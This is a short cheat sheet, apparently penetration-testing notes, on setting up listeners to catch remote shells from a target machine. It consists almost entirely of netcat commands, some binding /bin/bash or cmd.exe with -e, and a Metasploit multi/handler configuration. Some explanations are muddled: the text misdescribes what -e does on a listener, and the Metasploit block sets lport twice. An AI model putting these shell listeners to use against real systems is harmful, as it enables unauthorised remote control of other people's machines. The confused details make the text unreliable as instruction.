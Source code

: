 **setup listener**

NOTE: use rlwrap when dealing with windows

<h5>netcat</h5>

```
nc -nvlp (port assigned in payload)
```
OR
```
nc -nvlp (port) -e /bin/bash 
```
spawns shell on the attacker using target machine

OR
```
nc -lvnp <port> -e "cmd.exe"
```

spawns cmd on the attacker using target machine
OR
```
rlwrap nc -nvlp <port> -e /bin/bash
```

<h5>metasploit</h5>
msfconsole
use exploit/multi/handler
set lhost <interface or local ip>
set lport <desired port>
set rhost <target ip>
set lport <target port>
run